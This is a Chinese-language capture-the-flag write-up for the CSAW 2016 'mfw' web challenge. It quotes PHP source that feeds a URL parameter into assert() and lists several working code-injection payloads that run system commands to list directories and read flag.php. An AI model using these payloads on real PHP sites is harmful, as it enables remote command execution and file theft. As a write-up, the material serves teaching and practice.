 # Writeup-of-web-of-csaw-ctf-2016-quals
This is the Wirteup of web of csaw-ctf-2016-quals

通过 《write-ups-2016》 repository 中链接的几个Writeups可以看到解题方法https://github.com/ctfs/write-ups-2016/tree/master/csaw-ctf-2016-quals/web/mfw

这里是另外一些解题思路和备份。

首先通过上面链接的Writeups里的工具和思路下载得到源码。
主要是index.php源码。
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
下载到的源码应该是历史版本，所以flag.php中没有给出flag值。
从index.php里可以看出，虽然有require_once $file可以用来包含flag.php，但因为flag是被注释掉的，我们也看不到。
代码中有assert()函数，应该很敏感地想到要利用它来执行任意命令，从而拿到flag。


观察可以发现，page传入的参数存在代码注入漏洞，顺便提一下assert()函数会把传入的字符串当做php代码来执行。

## 注入思路：整体上可以注释掉', '..') === false，或者不注释，只在中间插入。另外要注意闭合单引号和括号。


#### 中间插入型，使用 . 连接符：

查看目录：?page=flag'.system("ls").'

![description](images/1.png)

进入目录并查看文件：?page=flag'.system("cd templates;ls").'

![description](images/2.png)

查看flag.php：?page=flag'.system("cat templates/flag.php").'

![description](images/3.png)

浏览器F12进入网页源码看到flag。

![description](images/4.png)

拿到flag。

说一下 . 连接符，?page=flag'.system("ls").'带入后得到
assert("strpos('flag'.system("ls").'.php', '..') === false") or die("Detected hacking attempt!");  执行过程为 ：字符串'flag'和system("ls")和字符串'.php'拼接后，作为strpos()的第一个参数。重点是system()函数是会直接把结果输出的，不用echo，也可以输出，所以system("ls")就直接把目录输出了。

下面是几种方式：

(1) ?page=flag'.system("cat templates/flag.php").'
~~~~
assert("strpos('templates/flag'.system("cat templates/flag.php").'.php', '..') === false") or die("Detected hacking attempt!");
~~~~
(2) 
~~~~
?page=', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('
~~~~
~~~~
assert("strpos('templates/', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('.php', '..') === false") or die("Detected hacking attempt!");
~~~~

#### 注释型

注意：assert()函数会把传入的字符串当做php代码来执行。

如果注释掉后面的语句：

(1) ?page=','88')===false and system("cat templates/flag.php");//
~~~~
assert("strpos('templates/','88')===false and system("cat templates/flag.php");//.php', '..') === false") or die("Detected hacking attempt!");
~~~~

(2) flag','..')+or+system('cat+templates/flag.php');//

或者写成 flag','..') or system('cat templates/flag.php');//
~~~~
assert("strpos('templates/flag','..') or system('cat templates/flag.php');//.php', '..') === false") or die("Detected hacking attempt!");
~~~~




